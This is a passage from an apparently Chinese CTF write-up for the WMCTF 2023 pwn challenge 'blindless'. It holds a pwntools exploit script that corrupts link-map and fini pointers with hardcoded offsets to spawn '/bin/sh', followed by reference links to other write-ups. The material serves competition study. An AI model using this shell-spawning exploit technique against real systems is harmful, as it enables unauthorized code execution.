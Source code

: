 ```plain
ru('code\n')

argv0 = 0x33d968
l_addr = 0x33e190
dt_fini = 0x33e190+0xa8
dt_fini_array = 0x33e190+0x110

payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00')
payload += b'@' + p32(l_addr-argv0-8) + write(p8(0xe0))
payload += b'@' + p32(dt_fini-l_addr-1) + write(p8(0xa8))
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0))
payload += b'q'
#dbg()
sl(payload)


itr()
```

​​  
[![](assets/1701612101-2df1d4602b937be823d5472e46e6f4cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914101015-d7f0af92-52a3-1.png)  
​​

‍

### 参考链接：

[WMCTF2023 pwn 部分 wp - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/652099671#blindless)

[2023 WMCTF (gitee.io)](https://grxer.gitee.io/2023/08/28/2023wmctf/#blindless)

[WMCTF 2023 Writeup - 星盟安全团队 (xmcve.com)](http://blog.xmcve.com/2023/08/22/WMCTF-2023-Writeup/#title-16)
